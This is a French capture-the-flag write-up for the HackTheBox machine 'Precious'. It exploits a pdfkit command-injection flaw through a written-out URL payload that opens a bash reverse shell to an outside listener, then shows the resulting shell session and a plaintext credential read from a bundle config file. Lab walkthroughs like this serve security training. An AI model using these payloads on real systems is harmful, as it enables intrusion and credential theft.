

# Precious


Reconaissance :&#x20;

```linker-script
nmap 10.10.11.189 -T5 -Pn

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


En se connectant au serveur http via l'adress ip on tombe sur un DNS non résolu. Il faudra l'ajouter soit dans :&#x20;

* /etc/hosts    => Linux
* /Windows/System32/Drivers/etc/hosts  => Windows &#x20;

```
10.10.11.189  precious.htb
```

Nous arrivons sur la page suivante  :

<figure><figcaption></figcaption></figure>

Afin de fournir une URL au site web il faudra demarrer un serveur Http en local :&#x20;

```powershell
python -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```

En fournissant notre url nous recevrons un fichier .pdf à télécharger.&#x20;

l'analyse des metada du fichiers avec exif tool nous montre qu'il a etait generé avec pdfkit v0.8.6:

<figure><figcaption></figcaption></figure>

En recherchant sur internet on tombe sur une cve critique : [https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

avec un joli exemple d'injection de commande :&#x20;

```
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait...
```

utilisons notre plugin chrome "hack-tools" en renseignant l'ip et le port d'ecoute pour notre reverse shell et adaptons notre url :&#x20;

<figure><figcaption></figcaption></figure>

Notre url d'injection devient la suivante :&#x20;

```bash
http://10.10.14.213:8000/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.213/1234 <&1'`'}
```

Ouvrons notre listener netcat  et injectons la commande précedante &#x20;

```
PS C:\Users\Apotheas> ncat -nvlp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.189.
Ncat: Connection from 10.10.11.189:51630.
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ whoami
whoami
ruby
bash-5.1$
```

En fouillant avec l'affichage des dossiers caché 'ls -a'  on tombe sur le repertoire suivant  :&#x20;

```bash
/home/ruby/.bundle
bash-5.1$ ls
ls
config
bash-5.1$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Surement la clef SSH  !  lets try it  !&#x20;
